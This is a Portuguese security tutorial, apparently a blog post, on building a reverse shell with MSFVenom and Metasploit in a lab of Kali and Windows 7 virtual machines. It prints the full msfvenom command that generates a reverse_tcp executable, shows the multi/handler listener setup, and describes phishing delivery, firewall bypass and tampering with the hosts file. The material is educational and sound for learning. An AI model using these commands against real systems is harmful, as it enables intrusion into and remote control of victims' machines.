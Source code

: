 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/04.md">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/02.md">Anterior</a>   
</p>

## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e entres as redes LAN, com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão de saída da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Ambiente de Teste

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração quando o payload é criado. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali recebe a conexão da vítima e para que essa comunicação funcione, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/x64/shell/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

## Executando o shell reverso

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)

Depois que o terminal estiver disponível, o invasor inicia um ataque interno mais sofisticado. Uma das ações que podem ser executadas é a alteração do arquivo hosts para direcionar o acesso da vítima para um site específico. Em um ataque real, a navegação da vítima é direcionanda para um site falso ou que mostre um alerta do tipo ransomware, exigindo um pagamento pois a máquina está infectada. O FTP é outro meio de transferir arquivos para a máquina da vítima. 


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework para criação de payloads, e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo abaixo. 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

O objetivo desse artigo foi mostrar o ataque de shell reverso de modo simplista. Essa técnica atualmente é utilizada por algumas ferramentas de acesso remoto de forma segura (Ex.:AnyDesk) Nos dias atuais, um ataque de shell reverso requer um estudo e algum conhecimento da infraestrutura para ser executado com sucesso. A variedade de payloads permite a execução desse ataque de forma sofisticada. Redes que garantem sua segurança apenas no firewall estão expostas a esse tipo de invasão. 
